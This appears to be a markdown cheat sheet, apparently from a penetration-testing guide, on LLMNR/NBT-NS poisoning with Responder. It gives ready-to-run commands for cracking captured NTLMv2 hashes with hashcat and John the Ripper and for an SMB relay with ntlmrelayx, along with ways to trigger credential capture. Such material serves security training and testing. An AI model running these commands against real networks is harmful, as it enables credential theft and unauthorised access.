 ## **🎯 ATTACK SCENARIOS**

### A. Malicious UNC Path
```
\\FAKESHARE\docs
```
*User clicks → tries to resolve FAKESHARE → Responder captures credentials*

### B. Misconfigured Software
- Applications trying to resolve `HOSTNAME.local`
- Failed DNS lookups triggering fallback protocols

### C. Active Triggering
- Use `nbtscan`, `CrackMapExec`, or `msfconsole`
- Force broadcast name resolution requests

---

## **🔍 HASH ANALYSIS**

### Hash Storage Location:
```
Responder/logs/
```

### Cracking with Hashcat:
```bash
hashcat -m 5600 responder_hash.txt rockyou.txt
```
*-m 5600 = NTLMv2 mode*

### Alternative: John the Ripper
```bash
john --format=netntlmv2 responder_hash.txt
```

---

## **🔄 RELAY ATTACKS**

### Setup Relay Attack:

1. **Modify Responder.conf:**
```ini
SMB = Off
HTTP = Off
```

2. **Start ntlmrelayx:**
```bash
sudo ntlmrelayx.py -t smb://<target-ip> -smb2support
```
